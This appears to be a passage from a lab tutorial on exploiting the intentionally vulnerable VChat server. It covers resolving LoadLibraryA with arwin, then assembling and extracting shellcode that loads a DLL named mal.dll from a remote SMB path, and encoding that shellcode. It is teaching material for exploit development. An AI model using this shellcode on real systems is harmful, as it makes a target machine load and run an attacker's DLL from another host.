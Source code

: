 1. Locate the address of the `LoadLibraryA` function. To get this information, we can use [Arwin](https://github.com/xinwenfu/arwin) as shown below:
	```
	arwin.exe kernel32 LoadLibraryA
	```
	* `arwin.exe`: This is the arwin address resolution program.
	* `kernel32`: This is the DLL that the function is stored in that we should search.
	* `LoadLibraryA`: The function who's address we are attempting to resolve.

2. Using this address, fill out the shellcode source from the [VChat_DLL](https://github.com/DaintyJet/VChat_KSTET_DLL) writeup contained in [dll_shellcode.s](./SourceCode/dll_shellcode.s). Remember that you will have to modify the string used to load the DLL based on your IP!
	```
	sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        	; overwriting our shellcode
	xor ebx,ebx             ; Zero out EBX that will be the NULL byte terminating
							; the UNC path
	push ebx                ; PUSH NULL byte
	push 0x6c6c642e         ; \\10.0.2.15\ABCD\mal.dll reversed
	push 0x6c616d5c
	push 0x44434241
	push 0x5c35312e
	push 0x322e302e
	push 0x30315c5c
	push esp                ; Push pointer of the UNC path
	mov ebx,0x76ba32a0      ; Move into EBX the address of 'LoadLibraryA'
	call ebx                ; call 'LoadLibraryA("\\10.0.2.15\ABCD\mal.dll")'
	```

3. Now you can assemble the shellcode in the [dll_shellcode.s](./SourceCode/dll_shellcode.s) into it's associated machine code with the `nasm` program in the Kali Linux machine as shown below.
	```
	$ nasm -f elf32 -o shellcode.o dll_shellcode.asm
	```
4. We can extract the hexcodes used as input into our encoder the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder) used in the [Blog](https://fluidattacks.com/blog/vulnserver-lter-seh/). This is done using the [extract.sh](./SourceCode/extract.sh) script shown below.
	```sh
	for i in $(objdump -d shellcode.o -M intel | grep "^ " | cut -f2); do
		echo -n '\x'$i;
	done;
	echo
	```
	* `for i in`: For each value `$i` generated by the following command.
	* `objdump -d shellcode.o -M intel | grep "^ " | cut -f2`: Extracts the hex shellcode.
		* `objdump -d shellcode.o -M intel`: Dump the assembly of the object file compiled for Intel format.
		* `grep "^ "`: Extract only those lines containing assembly.
		* `cut -f2`: Extract the second field, this contains the hex representation of the instructions.
	* ` do echo -n '\x'$i; done`: Echo the hex extracted in the format `\x<HexValue>`.
	* `echo`: Print an extra line.
	* **Note**: If you create this file, be sure to make it executable with `chmod +x extract.sh`, then you can run it using the command `./extract.sh`.
